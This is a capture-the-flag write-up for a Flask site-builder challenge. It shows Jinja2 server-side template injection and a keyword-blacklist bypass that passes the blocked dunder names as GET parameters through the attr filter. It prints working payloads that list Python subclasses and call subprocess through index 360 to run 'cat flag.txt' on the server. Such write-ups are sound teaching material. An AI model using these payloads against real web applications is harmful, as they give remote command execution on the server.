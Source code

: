 ## Build a website 

***I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.***

![](https://i.ibb.co/Q6GnQPr/build-a-website.png?size=150)

On the form we can enter some html which will be converted to webpage. My first thought was to inject some SSTI and I saw that {{ 7*7 }} results in 49 so the framework will be flask.
after some tries I recognized that on back-end there must be some blacklist on "globals, class" words which some confusing message (there is no stack smashing, it seems to be written by hand!!) 

```*** stack smashing detected ***: python3 terminated```


OK, my solution is: Send blacklist words as a GET params and prepare a statement ommiting blacklist
To avoid converting to strings we need to use ```attr``` function

to list all classes:
{{
''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)()
}}

to send os commands:
{{
(''|attr(request.args.p1)|attr(request.args.p2)|attr(request.args.p3)())[360]('cat flag.txt',shell=True,stdout=-1).communicate()
}}
with params:
&p1=__class__&p2=__base__&p3=__subclasses__
